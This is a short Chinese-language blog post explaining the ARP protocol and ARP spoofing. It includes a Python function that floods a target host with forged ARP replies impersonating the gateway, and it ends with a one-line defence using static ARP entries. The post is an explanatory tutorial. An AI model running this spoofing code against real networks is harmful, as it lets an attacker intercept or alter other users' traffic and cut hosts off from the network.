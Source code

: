 title: arp
date: 1970-01-01
comments: true
categories: 
### ARP

在以太网协议中规定，同一局域网中的一台主机要和另一台主机进行直接通信，必须要知道目标主机的MAC地址。
而在TCP/IP协议中，网络层和传输层只关心目标主机的IP地址。根据目的主机的IP地址，获得其MAC地址。这就是ARP协议要做的事情。

### ARP的两个特性

* query包是广播的
* reply包是可以伪造的

### ARP 攻击

基于这两个特点衍生了ARP欺骗攻击，此种攻击可让攻击者获取局域网上的数据包甚至可篡改数据包，且可让网络上特定电脑或所有电脑无法正常连接。

看下面这个简单的arp欺骗程序：

```
def hack(hack_ip, gate_way_ip):

    sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0806))
    sock.bind(("p3p1", socket.SOCK_RAW))
    # sock.bind(("en0", socket.SOCK_RAW))

    # 模拟网关发出arp应答
    sender_ip = pack('!4B', *[int(x) for x in gate_way_ip.split('.')])
    target_ip = pack('!4B', *[int(x) for x in hack_ip.split('.')])
    sender_mac = pack('!6B', *(0x11,)*6)#伪造的mac地址
    target_mac = pack('!6B', *(int(item, 16) for item in get_ip_mac(hack_ip).split(":")))

    count = 0
    arpframe = [
        # ## ETHERNET
        # destination MAC addr
        target_mac,
        # source MAC addr
        sender_mac,

        ETHERNET_PROTOCOL_TYPE_ARP,

        # ## ARP
        ARP_PROTOCOL_TYPE_ETHERNET_IP,
        # operation type
        ARPOP_REPLY,
        # sender MAC addr
        sender_mac,
        # sender IP addr
        sender_ip,
        # target hardware addr
        target_mac,
        # target IP addr
        target_ip,
    ]

    # send the ARP
    while 1:
        sock.send(''.join(arpframe))
        count += 1
        sys.stdout.write("\r 发送了{}个arp包".format(count))
        time.sleep(0.3)

```

[完整代码](https://gist.github.com/lovedboy/a7297554dad4afd8b2d5)

### 防御方法

网络内的每台电脑的ARP一律改用静态的方式。
